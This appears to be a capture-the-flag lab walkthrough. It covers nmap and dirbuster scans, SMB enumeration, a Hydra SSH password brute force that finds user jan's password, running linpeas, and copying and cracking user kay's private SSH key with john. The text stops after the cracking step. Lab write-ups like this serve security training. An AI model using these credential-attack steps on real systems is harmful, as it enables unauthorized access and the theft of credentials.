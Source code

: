 1. Scanning the target machine

`nmap -A -vv -Pn <target-ip>`

Exposed Ports:
 - 22
 - 139 & 445 (SMB)
 - 80
 - 8080

2. Enumerate the services running (dirbuster/gobuster)

`dirbuster -l /path/to/wordlist/file/wordlist.txt http://<target-ip>`

Discovered Paths:
 - /development/
 - /development/dev.txt
 - /development/j.txt

Files in /development info:
 - port 80 is hosted on apache
 - one employee has a weak password, so it might be crackable(ssh possibly)

3. Enumerate SMB with enum4linux
`enum4linux -a <IP_address>` < enumerate everything

Discovered info:
 - kay
 - jan
 - //10.10.168.206/Anonymous (smb share)
 - Samba Server 4.3.11-Ubuntu


5. Bruteforce the ssh connection with Hydra

`hydra -l username-found -P /usr/share/wordlists/rockyou.txt  10.10.168.206 ssh -t 32`
 -l specifies a user name
 -L specifies a user wordlist
 -p specifies a password
 -P specifies a password list
 -t number of simultaneous threads(default 32)

 Discovered Info:
  - usr: jan | password: armando


6. Enumerate the target machine(from the inside)
 - `scp linpeas.sh jan@10.10.168.206:/dev/shm` < send LinEnum to  [ref: https://github.com/peass-ng/PEASS-ng/releases/tag/20240623-7d729c04]
 - chmod +x /dev/shm/linpeas.sh
 - ./linpeas.sh

Discovered info:
- kay has an exposed private rsa key

7. crack kay's priv key passphrase
- `scp jan@10.10.168.206:/home/kay/.ssh/id_rsa .`
- `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa`
